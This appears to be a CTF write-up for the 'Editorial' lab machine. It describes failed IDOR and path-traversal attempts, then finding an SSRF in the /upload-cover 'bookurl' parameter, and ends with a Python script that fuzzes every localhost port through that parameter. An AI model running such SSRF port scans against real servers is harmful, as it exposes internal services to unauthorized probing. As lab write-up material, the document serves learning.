My initial thought was to check for IDOR and path traversal vulnerabilties. I became fixated on the "Publish With Us" page.


![[Pasted image 20250606202134.png]]


The "Send Book Info button" shoots a message off to the /upload route:

![[Pasted image 20250607094641.png]]

The preview button sends a message off to the /upload-cover route. This one became interesting to me since it actually stored the object on the server using a UUID.

![[Pasted image 20250607094845.png]]

Trying to access that object returns a failure.

![[Pasted image 20250607094908.png]]

![[Pasted image 20250607095006.png]]

So no IDOR. Path traversals also did not yield anything.

I monkeyed around that maybe there was a webengine that I could not see and I tried manipulating the request to pass in malicious code. That all failed.

What you were supposed to see (and I found out in a hint) was that the POST request to the /upload-cover route will take a URL for the preview image it is to populate on the webpage. This is not sanitized and will take references to localhost:


![[Pasted image 20250608193614.png]]

If there is nothing available at the 'bookurll' parameter, a default image is returned (what you see above). What you are supposed to do is fuzz ports on localhost until you get data to return.

0xdf used ffuf with the request to fuzz for ports. I found that technique disingenuous as you would kinda have to know exactly what to see in the output.....

To recover from needing the hint I came up with my own way to fuzz for the information. I wrote a Python script:

```
import requests

url = "http://editorial.htb/upload-cover"

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
    'Accept': '*/*',
    'Origin': 'http://editorial.htb',
    'Referer': 'http://editorial.htb/upload',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'keep-alive',
}

for port in range(65535):
	multipart_data = {
	    'bookurl': (None, f"http://127.0.0.1:{port}"),
	    'bookfile': ('', b'', 'application/octet-stream'),
	}
	response = requests.post(url, files=multipart_data, headers=headers)
	print(f"Port: {port}, Code: {response.status_code}, Text:{response.text}")
```

